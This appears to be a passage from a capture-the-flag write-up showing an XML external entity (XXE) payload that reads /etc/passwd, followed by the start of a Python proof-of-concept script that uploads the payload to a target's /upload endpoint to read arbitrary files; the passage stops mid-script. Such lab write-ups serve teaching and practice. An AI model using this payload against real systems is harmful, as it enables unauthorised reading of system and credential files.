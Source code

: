 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mandangon [
<!ENTITY dusk SYSTEM "file:///etc/passwd">
]>
<root>
	<Author>aaa</Author>
	<Subject>&dusk;</Subject>
	<Content>ccc</Content>
</root>
```

<img src="/assets/img/devoops/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

Created a Python PoC to exfiltrate the files more easily.

```python
import argparse
import requests
import textwrap
import sys

def exploit(target, file, write_to_disk):
    url = f'http://{target}:5000/upload'
    payload = textwrap.dedent(f'''\
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE mandangon [
        <!ENTITY dusk SYSTEM "file://{file}">
        ]>
        <root>
            <Author>aaa</Author>
            <Subject>&dusk;</Subject>
            <Content>ccc</Content>
        </root>''')
    files = {
        'file': ('text.xml', payload, 'text/xml')
    }

    try:
```